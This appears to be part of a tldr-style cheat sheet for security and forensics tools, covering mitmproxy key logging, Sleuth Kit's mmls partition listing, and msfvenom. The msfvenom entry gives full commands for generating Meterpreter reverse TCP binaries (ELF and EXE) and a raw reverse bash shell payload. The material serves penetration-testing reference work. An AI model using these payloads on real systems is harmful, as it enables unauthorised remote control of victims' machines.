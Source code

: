 ```sh
    SSLKEYLOGFILE="path/to/file" mitmproxy


See also: mitmweb
```

---

#### mmls:   Display the partition layout of a volume system.
```sh
mmls

  Display the partition layout of a volume system.
  More information: https://wiki.sleuthkit.org/index.php?title=Mmls.

  - Display the partition table stored in an image file:
    mmls path/to/image_file

  - Display the partition table with an additional column for the partition size:
    mmls -B -i path/to/image_file

  - Display the partition table in a split EWF image:
    mmls -i ewf image.e01 image.e02

  - Display nested partition tables:
    mmls -t nested_table_type -o offset path/to/image_file
```

---

#### msfvenom:   Manually generate payloads for metasploit.
```sh
msfvenom

  Manually generate payloads for metasploit.
  More information: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom.

  - List payloads:
    msfvenom -l payloads

  - List formats:
    msfvenom -l formats

  - Show payload options:
    msfvenom -p payload --list-options

  - Create an ELF binary with a reverse TCP handler:
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f elf -o path/to/binary

  - Create an EXE binary with a reverse TCP handler:
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f exe -o path/to/binary.exe

  - Create a raw Bash with a reverse TCP handler:
    msfvenom -p cmd/unix/reverse_bash LHOST=local_ip LPORT=local_port -f raw
```

---